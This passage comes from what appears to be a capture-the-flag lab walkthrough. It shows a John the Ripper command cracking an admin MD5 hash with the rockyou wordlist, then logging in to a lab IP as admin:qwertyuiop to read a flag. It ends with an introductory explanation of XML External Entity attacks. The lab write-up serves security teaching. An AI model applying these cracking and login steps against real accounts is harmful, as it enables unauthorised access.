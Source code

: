 ```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin.hash

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
qwertyuiop       (?)
1g 0:00:00:00 DONE (2020-09-26 20:35) 50.00g/s 19200p/s 19200c/s 19200C/s 123456..michael1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

`qwertyuiop`

3. Login as the admin. What is the flag?

- [Login](http://10.10.45.163/login/)
- admin:qwertyuiop
- [view-source:http://10.10.45.163/console/](view-source:http://10.10.45.163/console/)

```html
<div class="flag">
  <p>
    Well done.<br />Your flag is:
    <code>THM{V0N318*****Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}</code>
  </p>
</div>
```

`THM{V0N318*****Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl12**123:))}`

## [Day 4] XML External Entity

![](https://www.acunetix.com/wp-content/uploads/2017/07/XXE_600x315.png)

An XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.

There are two types of XXE attacks: in-band and out-of-band (OOB-XXE).

1. An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.
2. out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.

This challenge is from our subscriber only material - happy hacking!

1. Deploy the machine attached to the task.

## [Day 4] XML External Entity - eXtensible Markup Language
